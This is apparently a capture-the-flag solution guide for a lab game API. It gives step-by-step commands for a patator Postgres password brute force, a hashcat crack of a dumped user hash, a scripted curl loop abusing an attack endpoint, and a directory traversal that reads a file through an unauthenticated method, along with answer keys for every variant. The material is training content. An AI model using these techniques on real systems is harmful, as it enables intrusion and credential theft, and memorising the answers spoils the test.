# I Want to Play a Game

*Solution Guide*

## Overview

In *I Want to Play a Game*, you have been tasked with helping a small game company perform security testing against one of their APIs.

There are four (4) tokens to retrieve in this challenge.

*I Want to Play a Game* is a variant-style challenge. Challengers are presented with one of four possible variants. All of the steps to complete the challenge are the same across all variants, but the answers will be selected from one of four possible values.

For your convenience, we've repeated some of the challenge instructions here in the challenge solution guide.

Start by logging into the `kali-play-game` VM and use the provided tools to explore and exploit the API environment.

Finally, if you use Security Onion for creating PCAP files, make sure to enter `securityonion` in the **Sensor ID** field. Log into Security Onion at `10.4.4.4` through a browser or SSH. The Security Onion machine may take a few minutes to become available--**please be patient!**

## Question 1

*What is the password of the postgres account on the postgres database server?*

1. The challenge instructions state that the Postgres database server is located on the `10.1.1.0/24` subnet. Start by scanning this subnet with `nmap` using the following command:

```bash
nmap 10.1.1.0/24
```



2. Now that we know the IP address of the Postgres server, let's use `patator` to try brute-forcing the password. Start by opening the mounted CDROM drive and copying the `wordlist.txt` file to the Desktop.



3. We already know the IP address and the account name, so our command should look something like this:

```bash
patator pgsql_login host=10.1.1.210 user=postgres password=FILE0 0=/home/user/Desktop/wordlist.txt -x ignore:fgrep='password authentication failed for user'
```

4. Once the password has been cracked, you should see results similar to the following:



The correct submission for Question 1 is: `penniless`. Recall, this is a mixed variant and infinity-style challenge and the answer to your question will be randomized for each challenge instance. The list of possible values for this question is: armadillo, ecosphere, galvanize, hydroxide, luridness, outsource, penniless, reconvene, scrimmage, statistic, twistable, undercook, veneering.

## Question 2

*What is the password of the game_server_admin account in the Users table of the Game API database? You will need to crack the hashed password to get the correct answer.*

1. After completing the steps for Question 1, we now have access to the Postgres database server. Connect to the server with the following command, using the password obtained from solving the previous question:

```bash
psql -h 10.1.1.210 -U postgres
```



2. Enter the following command to list the available databases:

```bash
\l
```



3. Type `q` to exit the list and get back to the `psql` prompt.

4. Connect to the `GameAPI` database with the following command:

```bash
\c GameAPI
```



5. List all of the tables with the following command:

```bash
\dt
```



6. Run the following command to list all of the users:

```bash
select * from "Users";
```



7. Locate the record with the `game_server_admin` username. Copy the value of the **PasswordHash** field.



8. Create a new text file named **hashedpassword.txt**on the Desktop of your Kali VM and copy the password into this file.



9. Use `hashcat` and run the following command to crack the password hash:

```bash
hashcat -a 0 -m 0 /home/user/Desktop/hashedpassword.txt /home/user/Desktop/wordlist.txt
```



10. Once the password hash has been cracked you should see results similar to the following:



The correct submission for Question 2 is: `graffiti`. Recall, this is an variant-style question and the token will vary for your challenge instance.

The correct answers for this question for each variant are:

1. Variant 1: `chihuahua`
2. Variant 2: `graffiti`
3. Variant 3: `mothproof`
4. Variant 4: `steersman`

## Question 3

*What is the token presented in the API response after using the GameAPI to attack and defeat the Silver Dragon enemy character?*

1. Open a web browser on the `kali-play-game` VM and go to `http://10.7.7.200/swagger/index.html`.



2. The challenge instructions state that we will need the authentication token provided by a successful login, so let's start by looking at the `Login` method.



3. Click the **Try it out** button, enter the following credentials, then click the **Execute** button:

- Username: `tstewart`
- Password: `linkinpark`



4. Notice the results in the **Response body**. You will need to pass this as an HTTP header value to the other requests.



5. Examine the `Attack` method. You can see that you need to pass the following three arguments: `user_id`, `enemy_id` and `damage_amt`.



6. Examine the other API methods to find the `user_id` and `enemy_id`.

7. Look at the `ListUserIdsAndNames` API method. Click the **Try it out** button and then the **Execute** button to run the API call.





8. You need to add the "UserAuthToken" to the HTTP call. Copy the text from the **Curl** example field:

```text
curl -X 'GET' \
  'http://10.7.7.200/api/game/ListUserIdsAndNames' \
  -H 'accept: */*'
```

9. Add the `UserAuthToken` HTTP header:

```text
curl -X 'GET' \
  'http://10.7.7.200/api/game/ListUserIdsAndNames' \
  -H 'accept: */*' \
  -H 'UserAuthToken: a386a3dc3313479d8ca5d020374107f129f09d22cac542eda3c8d7e4b793c42d'
```

10. Open a terminal and paste the above `curl` command into it, then press **Enter**.



11. Locate the result with the `id` for the `tstewart` account you logged in with.



12. Let's try the same thing with the `ListEnemies` API method. Click the **Try it out** button, then the **Execute** button.



13. Copy the text from the **Curl** field.

```text
curl -X 'GET' \
  'http://10.7.7.200/api/game/ListEnemies' \
  -H 'accept: */*'
```

14. Add the `UserAuthToken` HTTP header:

```text
curl -X 'GET' \
  'http://10.7.7.200/api/game/ListEnemies' \
  -H 'accept: */*' \
  -H 'UserAuthToken: a386a3dc3313479d8ca5d020374107f129f09d22cac542eda3c8d7e4b793c42d'
```

15.  Open a terminal and paste the above `curl` command into it, then press **Enter**.



16. Copy the `id` value of the `Silver Dragon`.

17. Let's go back to the `Attack` method. Click the **Try it out** button, then enter the values you retrieved from the other API calls.



18. Click the **Execute** button and review the results. You will still need to add the `UserAuthToken` HTTP header.

```text
curl -X 'POST' \
  'http://10.7.7.200/api/game/Attack?user_id=acb1cd16-6252-4651-a262-4a099f898d55&enemy_id=141a152a-45e0-49aa-9413-7143ac6e9cdb&damage_amt=100' \
  -H 'accept: */*' \
  -d ''
```



19. Modify the call to include the authentication token.

```text
curl -X 'POST' \
  'http://10.7.7.200/api/game/Attack?user_id=acb1cd16-6252-4651-a262-4a099f898d55&enemy_id=141a152a-45e0-49aa-9413-7143ac6e9cdb&damage_amt=100' \
  -H 'accept: */*' \
  -H 'UserAuthToken: a386a3dc3313479d8ca5d020374107f129f09d22cac542eda3c8d7e4b793c42d' \
  -d ''
```

20. Open a terminal and paste the above `curl` command into it, then press **Enter**. You get a message displaying the Boss's health with a value of 19900.



21. Try running the same `curl` command again. We can see that the boss's health has decreased by an additional 100 hit points.



22. Let's trying creating a script to automate this process. Copy the text into a file and name it attack.sh. Save the file to the Desktop.

```bash
for i in {1..120}; do
   curl -X 'POST'   'http://10.7.7.200/api/game/Attack?user_id=acb1cd16-6252-4651-a262-4a099f898d55&enemy_id=141a152a-45e0-49aa-9413-7143ac6e9cdb&damage_amt=100' -H 'accept: */*' -H 'UserAuthToken: a386a3dc3313479d8ca5d020374107f129f09d22cac542eda3c8d7e4b793c42d' -d ''
done
```

23. Make the script executable by running the following command:

```bash
chmod +x attack.sh
```



24. Execute the script with the following command:

```bash
./attack.sh
```



25. You can see that the enemy's health is decreasing, but has not yet gone to 0. Run the script again using the same command from the previous step.



26. Notice that the message has changed and a token has been revealed.



27. The message contains the token for question 3. `You defeated the final boss. Here is your token for question #3: 75f15ed8`.

The correct submission for Question 3 is: `75f15ed8`. The correct submission for Question 1 is: `penniless`. Recall, this is a mixed variant and infinity-style challenge and the answer to your question will be randomized for each challenge instance.

## Question 4

*What is the value of token4, which can be found by exploiting the ReadFileContents API method to retrieve the contents of the token4.txt file?*

1. Open a web browser on the `kali-play-game` VM and go to `http://10.7.7.200/swagger/index.html.


2. The challenge document states that we will need the authentication token provided by a successful `Login`, so let's start by looking at the `Login` method.


3. Click the **Try it out** button, enter the following credentials, then click the **Execute** button:

- Username: `tstewart`
- Password: `linkinpark`


4. Notice the results in the `Response body`. You will need to pass this as an HTTP header value to the other requests.


5. Examine the `ReadFileContents` method. You can see that you need to pass the following arguments: `user_id` and `filePath`. You might also notice that there is a bug in this method which does not check for the presence of the `UserAuthToken`.



6. Examine the other API methods to find the `user_id`.

7. Look at the `ListUserIdsAndNames` API method. Click the **Try it out** button and then the **Execute** button to run the API call.


8. You need to add the *UserAuthToken* to the HTTP call. Copy the text from the **Curl** example field:

```text
curl -X 'GET' \
  'http://10.7.7.200/api/game/ListUserIdsAndNames' \
  -H 'accept: */*'
```

9. Add the `UserAuthToken` HTTP header:

```text
curl -X 'GET' \
  'http://10.7.7.200/api/game/ListUserIdsAndNames' \
  -H 'accept: */*' \
  -H 'UserAuthToken: a386a3dc3313479d8ca5d020374107f129f09d22cac542eda3c8d7e4b793c42d'
```

10. Open a terminal and paste the above `curl` command into it, then press **Enter**.


11. If you try using any `user_id` other than the one for the `game_server_admin` account, you will receive a message stating that you must be an admin to call the `ReadFileContents` method. Locate the result with the `id` for the `game_server_admin` account.

12. Let's go back to the `ReadFileContents` method. Click the **Try it out** button, then enter the values you retrieved from the other API calls. We know from the question that we are looking for the contents of `token4.txt` so let's enter that value in the **filePath** field.

13. Click the **Execute** button and review the results.

```text
curl -X 'POST' \
  'http://10.7.7.200/api/game/ReadFileContents?user_id=4948f85d-547f-459e-8289-9610706e62a2&filePath=token4.txt' \
  -H 'accept: */*' \
  -d ''
```



14. Based on the results, we can see that this is not the correct file path. Let's try a directory traversal attack. Change the value of the `filePath` argument to `../token4.txt` and click the **Execute** button again.



15. This produces a similar result. Change the value of the `filePath` argument to `../../token4.txt` and click the **Execute** button again. Notice the **Response body** field returns a token rather than a file not found message.



16. Here is a better view of the token in the **Response body** field.



The correct submission for Question 4 is: `cdc7b3e3`. The correct submission for Question 1 is: `penniless`. Recall, this is a mixed variant and infinity-style challenge and the answer to your question will be randomized for each challenge instance.